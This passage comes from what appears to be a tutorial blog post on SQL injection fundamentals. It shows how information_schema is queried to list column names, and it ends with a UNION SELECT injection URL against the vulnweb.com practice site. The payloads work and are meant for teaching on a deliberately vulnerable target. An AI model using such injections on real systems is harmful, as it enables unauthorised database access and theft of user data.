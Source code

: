 ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql12.jpg)
<br>
Awesome, we got all the table names storing in the acurat db.
### Extracting the column names
Just like `tables`, there is also `columns` method belongs to `information_schema`.However, to use that target-spesific, first
we needed to see table names. Otherwise it will bring all the columns exists in the database, such a mess.
```sql
MariaDB [testdb]> SELECT column_name FROM information_schema.columns WHERE table_name='users';
+---------------------+
| column_name         |
+---------------------+
| PersonID            |
| LastName            |
| FirstName           |
| PersonID            |
| FirstName           |
| LastName            |
| USER                |
| CURRENT_CONNECTIONS |
| TOTAL_CONNECTIONS   |
+---------------------+
```
Now lets imply this method to the acuart database. 
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.columns WHERE table_name="users">